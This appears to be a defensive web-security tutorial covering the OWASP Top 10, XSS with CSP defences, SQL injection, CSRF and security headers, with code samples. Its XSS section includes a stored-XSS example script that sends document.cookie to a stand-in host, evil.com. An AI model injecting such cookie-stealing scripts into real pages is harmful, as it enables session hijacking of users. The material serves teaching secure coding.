



## OWASP Top 10 Threat Overview

OWASP (Open Web Application Security Project) publishes the Top 10 every few years; it's required reading for web security:

| Rank | Threat | Core Issue |
|------|--------|------------|
| A01 | Broken Access Control | Unauthorized access, IDOR |
| A02 | Cryptographic Failures | Sensitive data in plaintext, weak algorithms |
| A03 | Injection | SQL/NoSQL/command injection |
| A04 | Insecure Design | Lack of security modeling |
| A05 | Security Misconfiguration | Default configs, debug mode left on |
| A06 | Vulnerable and Outdated Components | Dependencies with known vulnerabilities |
| A07 | Identification and Authentication Failures | Weak passwords, poor session management |
| A08 | Software and Data Integrity Failures | Insecure CI/CD, unverified updates |
| A09 | Security Logging and Monitoring Failures | Attacks go undetected |
| A10 | Server-Side Request Forgery (SSRF) | Internal network probing, cloud metadata leakage |

## XSS Attacks and CSP Defense

XSS (Cross-Site Scripting) injects malicious scripts into pages to steal user data or impersonate users.

### Three Types of XSS



**Stored XSS example**:

```html
<!-- Attacker submits in comment section -->
<textarea>
<script>
  fetch('https://evil.com/steal?cookie=' + document.cookie)
</script>
</textarea>

<!-- When other users visit the comment section, the script executes automatically -->
```

### Defense Measures

**1. Output Encoding (Most Fundamental Defense)**

```javascript
// Choose encoding method based on context
// HTML context
function escapeHTML(str) {
    return str.replace(/[&<>"']/g, c => ({
        '&': '&amp;', '<': '&lt;', '>': '&gt;',
        '"': '&quot;', "'": '&#x27;'
    })[c]);
}

// JavaScript context
// Use JSON.stringify
const data = JSON.stringify(userInput);

// URL context
// Use encodeURIComponent
const url = `/search?q=${encodeURIComponent(userInput)}`;
```

**2. CSP (Content Security Policy)**

CSP restricts what resources a page can load through HTTP headers, blocking XSS at its source:

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-abc123';     # Only same-origin + specific nonce scripts
  style-src 'self' 'unsafe-inline';     # Same-origin styles + inline styles
  img-src 'self' data: https:;          # Image source restrictions
  connect-src 'self' https://api.example.com;  # AJAX request restrictions
  frame-ancestors 'none';               # Prevent iframe embedding (clickjacking defense)
  base-uri 'self';
  form-action 'self';
```

```html
<!-- nonce mode: only scripts with matching nonce can execute -->
<script nonce="abc123">
  // This code can execute
</script>
<script>
  // This code is blocked by CSP
</script>
```

**3. HttpOnly Cookie**

```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Strict
```

`HttpOnly` prevents JavaScript from reading cookies; even if XSS occurs, sessions cannot be stolen.

## SQL Injection Defense

SQL injection is when attackers manipulate SQL statements through user input to execute unintended database operations:



### Defense Strategies

**1. Parameterized Queries (Most Effective)**

```go
// ❌ Concatenated SQL (dangerous)
query := fmt.Sprintf("SELECT * FROM users WHERE name = '%s'", username)
rows, err := db.Query(query)

// ✅ Parameterized query
rows, err := db.Query("SELECT * FROM users WHERE name = ?", username)
```

```python
# Python example
# ❌ Concatenation
cursor.execute(f"SELECT * FROM users WHERE id = {user_id}")

# ✅ Parameterized
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))
```

**2. ORM Injection Prevention**

```go
// GORM uses parameterized queries internally
var user User
db.Where("name = ?", username).First(&user)  // Safe

// ❌ But this approach is not safe
db.Where(fmt.Sprintf("name = '%s'", username)).First(&user)  // Dangerous
```

**3. Principle of Least Privilege**

The database account used by the application should have only the necessary permissions:

```sql
-- ❌ Application uses root account
-- ✅ Create a dedicated account
CREATE USER 'app_user'@'%' IDENTIFIED BY 'strong_password';
GRANT SELECT, INSERT, UPDATE, DELETE ON mydb.* TO 'app_user'@'%';
-- Do not grant DROP, ALTER, CREATE, etc.
```

## CSRF Attack Defense

CSRF (Cross-Site Request Forgery) exploits the automatic cookie-sending behavior of logged-in users to initiate requests from malicious websites:



### Defense Measures

**1. SameSite Cookie**

```http
Set-Cookie: session=abc123; SameSite=Strict
```

- `Strict`: No cookies sent on cross-site requests (most secure but affects UX)
- `Lax`: Cookies sent for GET navigation, not for POST/iframe (recommended default)
- `None`: Cookies sent on cross-site requests (requires Secure)

**2. CSRF Token**

```python
# Server generates Token, embeds in form
@app.route("/transfer")
def transfer_form():
    csrf_token = generate_csrf_token()
    return render_template("transfer.html", csrf_token=csrf_token)

# Validate Token
@app.route("/transfer", methods=["POST"])
def transfer():
    if request.form["csrf_token"] != session["csrf_token"]:
        abort(403)
    # Execute transfer...

# AJAX requests: Token in custom header
@app.before_request
def verify_csrf():
    if request.method in ("POST", "PUT", "DELETE"):
        token = request.headers.get("X-CSRF-Token")
        if token != session.get("csrf_token"):
            abort(403)
```

**3. Check Origin/Referer**

```python
@app.before_request
def check_origin():
    origin = request.headers.get("Origin") or request.headers.get("Referer")
    if origin and not origin.startswith("https://good.com"):
        abort(403)
```

## Security Header Configuration in Practice

```http
# Strict Transport Security: Enforce HTTPS
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload

# X-Content-Type-Options: Prevent MIME sniffing
X-Content-Type-Options: nosniff

# X-Frame-Options: Prevent clickjacking
X-Frame-Options: DENY

# X-XSS-Protection: Browser XSS filter (superseded by CSP, but as fallback)
X-XSS-Protection: 1; mode=block

# Referrer-Policy: Control Referer leakage
Referrer-Policy: strict-origin-when-cross-origin

# Permissions-Policy: Restrict browser APIs
Permissions-Policy: camera=(), microphone=(), geolocation=(self)

# Content-Security-Policy (most important)
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'
```

### Nginx Security Header Configuration

```nginx
server {
    listen 443 ssl http2;
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
    add_header X-Content-Type-Options "nosniff" always;
    add_header X-Frame-Options "DENY" always;
    add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'nonce-$request_id'" always;
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;
}
```

The core principle of web security: **Never trust user input**. Output encoding, parameterized queries, and CSRF tokens are the cornerstones of defense against the three major injection attacks; security headers provide an additional layer of protection. Security is not a one-time project but an ongoing process.
